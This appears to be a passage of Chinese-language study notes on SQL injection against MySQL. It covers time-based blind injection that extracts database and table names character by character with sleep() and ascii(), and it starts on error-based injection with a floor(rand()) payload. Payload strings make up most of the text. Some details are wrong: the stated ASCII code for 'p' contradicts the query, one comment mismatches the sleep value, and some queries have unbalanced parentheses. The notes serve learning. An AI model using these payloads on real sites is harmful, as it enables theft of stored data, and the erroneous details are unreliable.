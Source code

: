 ###### 一次猜解指定1个位置上字符——优化：加入ascii()函数使待猜解字符转为ASCII码，这样做有以下2个好处：

1. 避免使用字符时所加的单引号被转义
2. 使用工具遍历时只需跑1~127个数字即可，而如果直接使用字符则需要定义跑数字或字母

以字符p的ASCII码时115为例，优化后的延时注入语句为：

```sql
select * from member where id=1 and sleep(if((ascii(mid(database(),1,1))=112)),5,0));  //if有3个参数，注意括号
//如果延时5秒，则说明数据库名第1位是p；如果延时0秒，则说明数据库名第1位不是p
```

##### 猜解表名长度详解

```sql
select * from users where id = 1 and if((select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6,sleep(5),0)
```

**注意**：length()要加在要查询的字段名之外，不能加在整个select语句之外。或者就要像猜解表名字符一样，把最先要执行的select语句外强制加一层括号(待尝试)。

##### 猜解表名字符详解

```sql
select * from member where id=1 
and 
if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit    0,1),1,1))=101,sleep(3),0)--+
//如果延时5秒，说明查到表名结果的第一个表名的第一个字符的ASCII码时101，即第一个表名的第一个字符为e
```

解析：

```sql
select * from member where id=1 
and 
if(
    ascii(
        substr((
            	select table_name from information_schema.tables 
             	where table_schema=database() limit 0,1 //控制查询结果输出一条记录
               ) 
        ,1,1) //对查询结果的一条记录的第1位开始截取1位——即取查询结果第1条记录的第1个字符
    ) //对截取的1位进行ASCII编码
    =101,sleep(5),0);//编码后判断是不是e的ASCII码，若是则延时5秒；否则不延时
```

**注意**：括号嵌套较多，最里面的括号往往意味着最高的优先级，所以一定要将`select table_name from information_schema.tables where table_schema=database() limit 0,1`加上一层括号，保证这句先执行成功之后再对查询结果记录做截取、ASCII编码操作，一定注意括号。

### 3. 基于报错的SQL盲注——报错回显

1、通过floor报错,注入语句如下:

```sql
and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```
